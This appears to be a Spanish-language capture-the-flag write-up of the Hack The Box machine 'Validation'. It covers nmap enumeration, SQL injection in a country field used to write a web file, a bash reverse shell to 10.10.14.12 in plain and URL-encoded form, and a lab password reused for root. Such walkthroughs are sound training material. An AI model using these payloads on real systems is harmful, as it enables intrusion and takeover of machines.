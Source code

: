 ```yaml
---
title: "HTB - Validation"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2022/validation.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```



OS | LINUX
Desarrollado por | ipsec
Dificultad | Fácil
Liberación | 13 Septiembre 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.11.116 solo encontramos que está abierto el 80 (web),22 (SSH),8080,4566
```
# Nmap 7.92 scan initiated Wed Aug  3 11:19:23 2022 as: nmap -p22,80,4566,8080 -sCV -O -oN nmap/NMAP validation.htb
Nmap scan report for validation.htb (10.10.11.116)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug  3 11:19:45 2022 -- 1 IP address (1 host up) scanned in 22.46 seconds
```

Empezamos a enumerar directorios e interactuamos con la web, usando nmap –script=http-enum, y solo encuentra account.php. No se encuentra nada más y solo podemos interactuar con la web.

![Validation 1](/assets/images/post/2022/validation1.png)

Al registrarnos en la web nos damos cuenta de que envía un usuario y un país, el cual luego nos muestra nuestro usuario para el país que se eligió. Entre más usuarios registramos a la web más se muestra en la web como usuario, es por ello por lo que podemos pensar que la aplicación puede hacer un INSERT a una base de datos y luego genera un SELECT con el WHERE al país seleccionado. Probamos un SQL injection tanto en el usuario y en el país, y nos percatamos que en la variable country es vulnerable.

Probamos enumerar información importante en la Base de Datos (nombre de base de datos, tablas, usuarios). Descubrimos que la Base de datos que se utiliza es Maria DB 10.5.11

## 1° Shell

Mientras se prueba el SQL injection descubrimos que la web está en /var/www/html, además podemos crear archivos con el SELECT “<CONTENIDO DEL ARCHIVO>” INTO OUTFILE “<RUTA ESPECIFICA DEL ARCHIVO>» y esto nos genera un archivo en la ruta especificada.

Con este pagina creada podemos crear una Shell reversa con el siguiente bash -c ‘bash -i>& /dev/tcp/10.10.14.12/4444 0>&1’ al tratar de ejecutar no nos carga la Shell reversa, es por ello que codificamos el comando en URL ENCODE %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%32%2f%34%34%34%34%20%30%3e%26%31%27, y nos carga la Shell (esto pasa por que el navegador debe codificar el dato antes de enviarlo).

## 2° SHELL (root)

Revisando con el www-data vemos que no hay usuario para el sistema, pero en /var/www/html hay un archivo config.php con usuario y contraseña (uhc:uhc-9qual-global-pw) para conectarse localmente a la máquina, probamos esta clave con el usuario root.

![Racso](https://www.hackthebox.com/badge/image/159593)